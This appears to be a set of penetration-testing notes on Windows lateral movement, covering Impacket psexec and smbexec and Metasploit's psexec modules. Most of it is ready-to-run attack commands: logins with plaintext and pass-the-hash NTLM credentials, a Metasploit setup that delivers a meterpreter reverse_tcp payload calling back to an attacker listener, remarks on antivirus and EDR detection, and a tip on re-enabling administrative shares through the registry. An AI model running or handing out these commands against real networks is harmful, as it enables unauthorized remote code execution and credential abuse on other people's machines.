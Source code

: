 **impacke toolsuite**
+ similaar to microsoft sysinternals suite
+ in most cases, interactive binaries such as powershell, vsadmin, plink, and many other will cause the service to fail
+ upload a service binary with arbitrary name, will be flagged and stopped by av and edr.

```bash
# Running python psexec with credentials
python psexec.py user:password@192.168.1.2
# domain/user:password@targetip, use ''
psexec.py corp.local/administrator:'tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T'@$tip

# pass the hash
## -hashes, lm hash:ntlm hash
python psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c user@192.168.1.2 cmd.exe
```

**msf**
+ msf psexec is flagged by a majority of av vendors.
+ behaves generally the same way as Microsoft sysinternals suite
+ when the service control manager starts the service, it starts a new rundll32.exe process and allocates executable memeory inside the process, and copyies shellcode into it.
```bash
# modules
exploit/windows/smb/psexec
exploit/windows/local/current_user_psexec
auxiliary/admin/smb/psexec_command
auxiliary/scanner/smb/psexec_loggedin_users

//smbpass=[LMhash]:[NTLMhash]
use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.119.196
set LPORT 443
set RHOST 192.168.57.131
set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
exploit

# pass the hash attack, read the offensive-lateral-movement
```

## smbexec/scexec
+ same to psexec, but doesn't upload service binary
+ 注册表开启共享
  > windows默认开启IPC$、Admin$、C$等系统共享，本地Administrators组内成员有完全控制权。
  > `net share`查看默认共享被关闭时，可以通过修改注册表项再次将其打开（需重启）

```
python smbexec.py user:password@192.168.1.2

python smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c user@192.168.1.2 cmd.exe
```
